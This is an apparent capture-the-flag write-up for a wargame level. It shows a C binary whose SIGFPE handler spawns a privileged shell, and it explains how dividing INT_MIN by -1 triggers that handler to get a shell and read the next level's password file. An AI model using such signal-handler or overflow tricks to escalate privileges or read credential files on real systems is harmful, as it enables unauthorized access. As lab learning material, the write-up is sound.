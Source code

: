 1. Check out the source file to see what we need to do:
   ```
   //a little fun brought to you by bla
   
   #include <stdio.h>
   #include <stdlib.h>
   #include <signal.h>
   #include <setjmp.h>
   
   void catcher(int a)
   {
        setresuid(geteuid(),geteuid(),geteuid());
        printf("WIN!\n");
        system("/bin/sh");
        exit(0);
   }
   
   int main(int argc, char **argv)
   {
        puts("source code is available in level02.c\n");
   
        if (argc != 3 || !atoi(argv[2]))
            return 1;
        signal(SIGFPE, catcher);
        return abs(atoi(argv[1])) / atoi(argv[2]);
   }
   ```

2. We see that there's a signal to catch a SIGFPE: a floating point exception.
   Something like this can be caused by dividing by zero or some other similar
   exception (as you'll see below). We also see that there's a check to make sure
   we supply two command line arguments, and the second argument can not be zero.
   As the final return line shows, the first argument is dividied by the second
   and the absolute value of this operation is returned. Since argv[2] can't be
   zero, we need to find some other way to cause an exception.

3. Now here's the solution:
   ```
   level2@io:/levels$ ./level02 -2147483648 -1
   source code is available in level02.c

   WIN!
   sh-4.2$ cat /home/level3/.pass
   [Password to level3]
   ```

* To be perfectly honest, I'm not totally sure why this works. I played around with
these numbers for a little while and I just happened to get the right ones. I'll
look into a bit more to figure out exactly why this causes a SIGFPE.

Update: After doing some more playing in gdb and refreshing my mind a bit, I think I
understand the issue. Signed numbers are represented by the most significant
bit being 1. So the number 2147483647 is:
`0x7fffffff -> 0111 1111 1111 1111 1111 1111 1111 1111`
and that is the largest possible 32 bit signed integer value. So when we add 1 to
it it becomes 2147483648 which is represented as:
`0x80000000 -> 1000 0000 0000 0000 0000 0000 0000 0000`
Now we've overflowed and we have a very large negative number. When diving by -1,
you give the dividend the opposite sign. So when we try to take the opposite sign
of -2147483648 the answer would obviously be 2147483648. The problem there is that
that number can't be represented in the world of 32 bit signed integers! Hence the
SIGFPE. I believe that's the full explanation.
